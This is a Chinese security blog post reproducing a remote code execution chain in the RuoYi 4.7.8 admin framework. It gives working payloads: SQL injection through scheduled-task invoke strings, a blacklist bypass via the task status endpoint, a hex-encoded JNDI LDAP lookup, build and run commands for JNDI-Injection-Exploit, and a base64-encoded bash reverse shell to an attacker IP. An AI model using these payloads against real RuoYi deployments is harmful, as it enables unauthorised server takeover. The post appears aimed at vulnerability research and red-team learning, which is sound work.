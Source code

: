 #  最新Ruoyi漏洞复现   
原创 LULU  红队蓝军   2024-10-09 18:00  
  
**漏洞影响：若依4.7.8版本**  
  
**漏洞成因**  
  
在 ruoyi 4.7.5 版本之前，后台接口/tool/gen/createTable处存在 sql 注入(CVE-2022-4566)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmY0QtoLZD2IDxyCnsbjqHUiaE6Hia18H9X9Ut6ZJDelUmEibT4YxmqZLiaQ/640?wx_fmt=png&from=appmsg "")  
  
找到genTableService的实现类：GenTableServiceImpl，该类同样满足黑白名单条件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmUO5iciav9a2vrrfeoPemeHQPsnT1DPkjnSfYic5liceBW0mF37Rul1ep5g/640?wx_fmt=png&from=appmsg "")  
  
对应的 Mapper 语句:  
```
<update id="createTable">
       ${sql}
</update>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmjBLhF1g3re3v39urfm6BAWhFdL2a7YjLFfXhXeNXV37Xuicfs10aQhw/640?wx_fmt=png&from=appmsg "")  
  
如果 GenTableServiceImpl 是 bean 对象，就可以直接调用 GenTableServiceImpl#createTable 执行 SQL 语句  
  
在启动类中打印所有加载的 bean，其中包括 genTableServiceImpl：  
```
ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
// 获取所有bean的名称
String[] beanDefinitionNames = run.getBeanDefinitionNames();
// 打印所有bean的名称
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmzmuwqWMIlicH4DbZCEGAna8VUibJoP32NbONic9QP2va3rjeAzwkkcSIQ/640?wx_fmt=png&from=appmsg "")  
  
ruoyi黑白名单校验仅出现在com.ruoyi.quartz.controller.SysJobController#addSave，而任务状态修改接口中并没有添加，可不调用addSave方法添加计划任务内容，成功绕过黑白名单限制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmgUy9aAmgebfOG3J3S6QD4p5naVZXrbKm6zRoxDhmgUfYf4riaMDo3xw/640?wx_fmt=png&from=appmsg "")  
## 计划任务SQL注入   
  
修改id为1的计划任务的值为’zian’  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'zian' WHERE job_id = 1;')

```  
  
点击启用任务，ID为1的值成功被修改  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmELRS5PGbgSBUquNePiaYFQ6BN6icePUydRql3zfxQWlqhv8YR9NBYUzQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmCgicYff0JTk6IFHCqLRmpaLG55RVia6PGnL2KutDMpcLn4J14QOkCyJA/640?wx_fmt=png&from=appmsg "")  
## 利用计划任务执行任意命令   
  
**验证漏洞**  
  
**使用JNDI-Injection-Exploit起一个ldap服务**  
```
${jndi://ldap://xxxx.xxx.cn}

解析payload
1、首先 发现字符串有${},调用lookup函数
2、解析${}中的内容发现是JNDI的ldap服务
3、攻击者构造任意命令

```  
  
1、JNDI利用工具  
```
安装：git clone https://github.com/welk1n/JNDI-Injection-Exploit.git

切换目录：cd JNDI-Injection-Exploit

编译安装：mvn clean package -DskipTests 

切换到target目录 cd target


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmD0NG3mNfrUtBBic9dLQNZIQJ2eg5ryMEPU7fXQeCPqia4TWgrFiaG6rEQ/640?wx_fmt=png&from=appmsg "")  
  
使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，依赖Java 版本1.8 或者1.7  
```
工具使用方式：java-jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -c"命令" -A “攻击机的IP”

```  
```
jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C calc -A 攻击机IP

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmmfWShDiaibm8kNq9Dic97KTr3AKTXe4dgCjXYcGVzhMD6c2N7o9HeWeCQ/640?wx_fmt=png&from=appmsg "")  
  
由于JobInvokeUtil在调用过程中不允许在字符串中使用括号，因此将原始作业表中特定作业的参数值修改为十六进制（绕过防御检测）  
  
需要将ldap服务进行编码  
```
0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3139322E3136382E312E3130343A313338392F646573657269616C4A61636B736F6E2729

```  
  
修改id为3的计划任务为jndi payload  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3139322E3136382E312E3130343A313338392F646573657269616C4A61636B736F6E2729 WHERE job_id = 3;')

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmCU3IVF9iaCBXCyI0iaH7qQDBTEXgPVWzTyRN2AAr1q6vytnwugHENPicQ/640?wx_fmt=png&from=appmsg "")  
  
启用任务  
  
任务3的调用字符串已经是Jndi payload了，后面直接通过/monitor/job/changeStatus接口直接更改任务状态触发Jndi  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmPGHcxC4zCXuIo2GhtvStA6jYcBnzvYicD8hCa5L6opBJdvWHhArVOKA/640?wx_fmt=png&from=appmsg "")  
### 漏洞利用  
  
**linux反弹shell**  
  
将反弹shell通过JNDI注入工具部署在LDAP服务 或者RMI 服务中  
```
bash -i >& /dev/tcp/192.168.xx.xx/7788 0>&1
base64编码后
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA4Lzc3ODggMD4mMQoKCg==}|{base64,-d}|{bash,-i}

```  
  
生成LDAP服务  
```
运行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA4Lzc3ODggMD4mMQoKCg==}|{base64,-d}|{bash,-i}" -A "攻击机ip"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLmdHUlbwQHbhyeKicuonTJvletia5k7icemKgI8icEuxD5dLO89PhyiaIn1Hw/640?wx_fmt=png&from=appmsg "")  
  
将ldap服务十六进制编码后，通过计划任务id=2执行，这里使用kali 进行监听  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6dYOBHEC2hMHouw41ZnmLm9e6Uc9j1nciaj1S6iavia5zKnk6J3NKvNgHAz2RBAQCjiblJKUCVibicWGMw/640?wx_fmt=png&from=appmsg "")  
  
参考文章：  
  
https://eddiemurphy89.github.io/2024/08/08/Ruoyi-v4-7-8-RCE%E5%88%86%E6%9E%90/  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
